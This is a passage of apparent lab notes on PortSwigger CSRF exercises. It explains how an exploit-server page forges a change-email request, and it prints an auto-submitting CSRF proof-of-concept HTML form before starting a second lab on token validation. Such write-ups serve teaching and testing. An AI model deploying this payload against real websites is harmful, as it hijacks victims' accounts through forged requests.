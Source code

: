 The POST request made from the exploit server go through the form tag, automate submit on the exploit server to the victim web site at change email method. But then the request was made by the original server but the content of the request came from the exploit server, causing CSRF, that the request was made by 3rd party server and the cookie is pass through the request.

```jsx
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://[ID].web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="xinchaos&#64;normal&#45;user&#46;net" />
    </form>
	<script>document.forms[0].submit();</script> //auto submit
  </body>
</html>
```

## LAB 02: **CSRF where token validation depends on token being present**

 Packet with email to change and CSRF token

![Untitled](CSRF%20fd5308ba97fe4191835760cf7369a4dd/Untitled%207.png)

Generate a POC but still include the CSRF tokens generated by the server.
